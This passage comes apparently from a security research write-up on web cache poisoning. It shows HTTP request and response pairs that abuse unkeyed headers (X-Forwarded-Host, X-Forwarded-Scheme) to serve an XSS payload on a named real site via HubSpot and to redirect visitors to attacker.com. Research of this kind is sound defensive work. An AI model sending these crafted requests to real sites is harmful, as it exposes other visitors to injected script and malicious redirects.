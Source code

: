 Goodhire.com is evidently hosted on HubSpot, and HubSpot is giving the  X-Forwarded-Server header priority over the Host header and getting  confused about which client this request is intended for. Although our  input is reflected in the page, it's HTML encoded so a straightforward  XSS attack doesn't work here. To exploit this, we need to go to  hubspot.com, register ourselves as a HubSpot client, place a payload on  our HubSpot page, and then finally trick HubSpot into serving this  response on goodhire.com: 

``````http
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com

HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
``````

Cloudflare happily cached this response and served it to subsequent visitors. 

### Chaining Unkeyed Inputs

 Sometimes an unkeyed input will only confuse part of the application stack, and you'll need to chain in other unkeyed inputs to achieve an  exploitable result. Take the following site:

```http
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz

HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```

 The X-Forwarded-Host header overrides the domain on the cookie, but  none of the URLs generated in the rest of the response. By itself this  is useless. However, there's another unkeyed input: 

```http
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps

HTTP/1.1 301 Moved Permanently
Location: https://redacted.net/en
```

This input is also useless by itself, but if we combine the two together we  can convert the response into a redirect to an arbitrary domain:

```http
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps

HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en 
```
